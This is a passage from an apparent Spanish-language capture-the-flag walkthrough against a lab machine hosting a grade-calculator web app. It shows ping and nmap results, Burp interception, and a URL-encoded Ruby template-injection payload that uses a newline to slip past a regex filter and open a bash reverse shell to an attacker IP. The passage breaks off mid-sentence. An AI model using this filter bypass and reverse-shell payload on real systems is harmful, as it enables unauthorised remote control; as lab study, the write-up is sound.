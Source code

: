### Ping
```python
ping -c 1 10.10.11.253
PING 10.10.11.253 (10.10.11.253) 56(84) bytes of data.
64 bytes from 10.10.11.253: icmp_seq=1 ttl=63 time=372 ms

--- 10.10.11.253 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 371.851/371.851/371.851/0.000 ms
```
### TTL 63= Linux
### nmpa
```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.08 seconds
```

### Enumeración del puerto 80

![[Pasted image 20240302204849.png]]
en esta parte tenemos una especie de calculadora podemos interactuar e intentar capturar la la petición 
![[Pasted image 20240303152607.png]]
### Burpsuite
interceptamos la petición con burp y al intentar ingresar una reverse shell lo detecta como código malicioso
![[Pasted image 20240303152515.png]]


### Info
tenemos informacion de come ejecutar un Execute Code
![[Pasted image 20240303203611.png]]
en este caso tenemos que agregar un salto de linea para que ruby pueda interpretar el comando %OA mas comando a inyectar

```python
	test%0A<%25%3d+system("bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.8/9001+0>%261'")+%25>
```
### regex ruby bypass

![[Pasted image 20240303203414.png]]
###### inyectamos este coma